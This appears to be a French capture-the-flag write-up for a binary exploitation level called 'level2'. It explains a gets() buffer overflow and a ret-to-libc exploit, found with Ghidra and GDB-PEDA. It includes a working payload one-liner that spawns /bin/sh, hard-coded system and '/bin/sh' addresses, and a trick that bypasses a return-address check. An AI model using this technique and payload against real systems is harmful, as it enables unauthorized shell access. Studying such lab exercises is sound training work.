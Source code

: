 # Soluce

```
(python -c 'print("a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "----" + "\x58\xcc\xf8\xb7")'; cat) | ./level2
```

## Description du code

-  la fonction p est appeler dans le main
-  une faille evidente est dans p un gets qui utilise une chaine de 76 char
-  cependant condition check si l'adresse de retour est modifier afin de proteger a toute modifiction

## Explication de l'exploit

Pour exploiter la vulnérabilité de débordement de tampon (buffer overflow) introduite par gets, nous utiliserons une technique appelée "ret to libc".
Dans un premier temps, nous allons analyser le binaire à l'aide de l'outil Ghidra pour obtenir le code source. Ensuite, nous utiliserons un motif d'exploitation pour déterminer le décalage de l'adresse de retour.

Le motif d'exploitation est :

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

En utilisant l'extension PEDA de GDB, nous pouvons observer que le contenu de eip est "6Ac7", ce qui signifie que le décalage pour écrire sur eip est de 80.
Ensuite, nous récupérons l'adresse de la fonction system et l'adresse de la chaîne "/bin/sh" depuis le binaire à l'aide de GDB.

```
gdb ./level2
b main
run 

p &system
$1 = (<text variable, no debug info> *) 0xb7e6b060 <system>           ## Adresse de system

find &system,+9999999,"/bin/sh"                                         
0xb7f8cc58                                                             ## Adresse de la chaîne "/bin/sh"
```

Maintenant, nous assemblons ces informations pour former la charge utile correcte sur la pile :

```
(python -c 'print("a" * 80  + "\x60\xb0\xe6\xb7" + "----" + "\x58\xcc\xf8\xb7")'; cat) | ./level2
```
Nous pouvons remplacer les "----" par l'adresse de exit, qui sera l'adresse de retour de system. 

Cependant, le code a une protection qui vérifie si l'adresse de retour est modifiée. Pour contourner cela, nous inserons la meme adresse de retour pour faire en sorte de passer la verification

```
(gdb) disassemble p
(...)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret  
```
## Payload

[Padding de 80] + [Adresse de reour de p] + [Adresse de system] + [Adresse de retour de system] + [Adresse de la string /bin/sh]

tips: l'adresse de retour de system, peut etre n'importe quelle string, en general